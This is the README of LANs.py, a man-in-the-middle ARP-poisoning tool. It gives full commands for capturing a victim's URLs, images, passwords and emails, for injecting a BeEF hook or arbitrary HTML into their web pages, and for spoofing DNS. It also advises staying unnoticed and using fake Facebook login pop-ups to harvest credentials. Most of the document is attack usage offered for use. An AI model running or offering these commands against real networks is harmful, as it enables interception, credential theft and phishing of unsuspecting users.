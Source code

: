 LANs.py
========

Multithreaded asynchronous packet parsing/injecting ARP poisoner.

Individually poisons the ARP tables of the target box, the router and the DNS server if necessary. Does not poison anyone else on the network. Displays all most the interesting bits of their traffic and can inject custom html into pages they visit. Cleans up after itself.


Prereqs: Linux, python-scapy, python-nfqueue (nfqueue-bindings 0.4-3), aircrack-ng, python-twisted, BeEF (optional), and a wireless card capable of promiscuous mode if you choose not to use the -ip option

Tested on Kali 1.0. In the following examples 192.168.0.5 will be the attacking machine and 192.168.0.10 will be the victim.


All options:

``` shell
python LANs.py [-a] [-h] [-b BEEF] [-c CODE] [-u] [-ip IPADDRESS] [-vmac VICTIMMAC] [-d]
  [-v] [-dns DNSSPOOF] [-r IPADDRESS] [-set] [-p] [-na] [-n] [-i INTERFACE] 
  [-rip ROUTERIP] [-rmac ROUTERMAC] [-pcap PCAP]
```

Usage
-----

### Simplest usage (including active user targeting):

``` shell
python LANs.py
```

Because there's no -ip option this will ARP scan the network, compare it to a live running promiscuous capture, and list all the clients on the network including their Windows netbios names along with how many data packets they're sending. so you can immediately target the active ones. The ability to capture data packets they send is very dependent on physical proximity and the power of your network card. then you can Ctrl-C and pick your target which it will then ARP spoof. Simple target identification and ARP spoofing.

### Passive harvesting:

``` shell
python LANs.py -u -d -p -ip 192.168.0.10
```

-u: prints URLs visited; truncates at 150 characters and filters image/css/js/woff/svg urls since they spam the output and are uninteresting

-d: open an xterm with driftnet to see all images they view

-p: print username/passwords for FTP/IMAP/POP/IRC/HTTP, HTTP POSTs made, all searches made, incoming/outgoing emails, and IRC messages sent/received; will also decode base64 if the email authentication is encrypted with it

-ip: target this IP address

Easy to remember and will probably be the most common usage of the script: options u, d, p, like udp/tcp.


### HTML injection:

``` shell
python LANs.py -b http://192.168.0.5:3000/hook.js
```

Inject a BeEF hook URL (http://beefproject.com/, tutorial: http://resources.infosecinstitute.com/beef-part-1/) into pages the victim visits.


``` shell
python LANs.py -c '<title>Owned.</title>'
```

Inject arbitrary HTML into pages the victim visits. First tries to inject it after the first `<head>` and failing that injects prior to the first `</head>`. This example will change the page title to 'Owned.'


### Read from pcap:

``` shell
python LANs.py -pcap libpcapfilename -ip 192.168.0.10
```

To read from a pcap file you must include the target's IP address with the -ip option. It must also be in libpcap form which is the most common anyway. One advantage of reading from a pcap file is that you do not need to be root to execute the script.


### DNS spoofing
``` shell
python LANs.py -a -r 80.87.128.67
```
``` shell
python LANs.py -dns eff.org
```

Example 1: The -a option will spoof every single DNS request the victim makes and when used in conjuction with -r it will redirect them to -r's argument address. The victim will be redirected to stallman.org (80.87.128.67) no matter what they type in the address bar.

Example 2: This will spoof the domain eff.org and subdomains of eff.org. When there is no -r argument present with the -a or -dns arguments the script will default to sending the victim to the attacker's IP address. If the victim tries to go to eff.org they will be redirected to the attacker's IP.

### Most aggressive usage:

``` shell
python LANs.py -v -d -p -n -na -set -a -r 80.87.128.67 -c '<title>Owned.</title>' -b http://192.168.0.5:3000/hook.js -ip 192.168.0.10
```


### All options:

``` shell
python LANs.py -h
```

-b BEEF_HOOK_URL: copy the BeEF hook URL to inject it into every page the victim visits, eg: -b http://192.168.1.10:3000/hook.js

-c 'HTML CODE': inject arbitrary HTML code into pages the victim visits; include the quotes when selecting HTML to inject

-d: open an xterm with driftnet to see all images they view

-dns DOMAIN: spoof the DNS of DOMAIN. e.g. -dns facebook.com will DNS spoof every DNS request to facebook.com or subdomain.facebook.com

-a: Spoof every DNS response the victim makes, effectively creating a captive portal page; -r option can be used with this

-r IPADDRESS: only to be used with the -dns DOMAIN option; redirect the user to this IPADDRESS when they visit DOMAIN

-u: prints URLs visited; truncates at 150 characters and filters image/css/js/woff/svg urls since they spam the output and are uninteresting

-i INTERFACE: specify interface; default is first interface in `ip route`, eg: -i wlan0

-ip: target this IP address

-n: performs a quick nmap scan of the target

-na: performs an aggressive nmap scan in the background and outputs to [victim IP address].nmap.txt

-p: print username/passwords for FTP/IMAP/POP/IRC/HTTP, HTTP POSTs made, all searches made, incoming/outgoing emails, and IRC messages sent/received

-pcap PCAP_FILE: parse through all the packets in a pcap file; requires the -ip [target's IP address] argument

-rmac ROUTER_MAC: enter router MAC here if you're having trouble getting the script to automatically fetch it

-rip ROUTER_IP: enter router IP here if you're having trouble getting the script to automatically fetch it

-v: show verbose URLs which do not truncate at 150 characters like -u



### Clean up

Upon receiving a Ctrl-C:

-Turns off IP forwarding

-Flushes iptables firewall

-Individually restores the router and victim's ARP tables



Technical details
------------------

This script uses a python nfqueue-bindings queue wrapped in a Twisted IReadDescriptor to feed packets to callback functions. nfqueue-bindings is used to drop and forward certain packets. Python's scapy library does the work to parse and inject packets.

Injecting code undetected is a dicey game, if a minor thing goes wrong or the server the victim is requesting data from performs things in unique or rare way then the user won't be able to open the page they're trying to view and they'll know something's up. This script is designed to forward packets if anything fails so during usage you may see lots of "[!] Injected packet for www.domain.com" but only see one or two domains on the BEeF panel that the browser is hooked on. This is OK. If they don't get hooked on the first page just wait for them to browse a few other pages. The goal is to be unnoticeable. My favorite BEeF tools are in Commands > Social Engineering. Do things like create an official looking Facebook pop up saying the user's authentication expired and to re-enter their credentials.

NOTE TO UBUNTU USERS: you will need to update/manually install nfqueue-bindings to version 0.4.3 due to the fact the version in Ubuntu's repo is 0.2. Alternatively just edit the Parser.start() function on line 135 from:

def start(self, payload):

to:

def start(self, i, payload)



License
-------

Copyright (c) 2013, Dan McInerney
All rights reserved.

Redistribution and use in source and binary forms, with or without
modification, are permitted provided that the following conditions are met:
* Redistributions of source code must retain the above copyright notice, this list of conditions and the following disclaimer.
* Redistributions in binary form must reproduce the above copyright notice, this list of conditions and the following disclaimer in the documentation and/or other materials provided with the distribution.
* Neither the name of the Dan McInerney nor the names of its contributors may be used to endorse or promote products derived from this software without specific prior written permission.

THIS SOFTWARE IS PROVIDED BY THE COPYRIGHT HOLDERS AND CONTRIBUTORS "AS IS" AND
ANY EXPRESS OR IMPLIED WARRANTIES, INCLUDING, BUT NOT LIMITED TO, THE IMPLIED
WARRANTIES OF MERCHANTABILITY AND FITNESS FOR A PARTICULAR PURPOSE ARE
DISCLAIMED. IN NO EVENT SHALL <COPYRIGHT HOLDER> BE LIABLE FOR ANY
DIRECT, INDIRECT, INCIDENTAL, SPECIAL, EXEMPLARY, OR CONSEQUENTIAL DAMAGES
(INCLUDING, BUT NOT LIMITED TO, PROCUREMENT OF SUBSTITUTE GOODS OR SERVICES;
LOSS OF USE, DATA, OR PROFITS; OR BUSINESS INTERRUPTION) HOWEVER CAUSED AND
ON ANY THEORY OF LIABILITY, WHETHER IN CONTRACT, STRICT LIABILITY, OR TORT
(INCLUDING NEGLIGENCE OR OTHERWISE) ARISING IN ANY WAY OUT OF THE USE OF THIS
SOFTWARE, EVEN IF ADVISED OF THE POSSIBILITY OF SUCH DAMAGE.


-------
danmcinerney.org
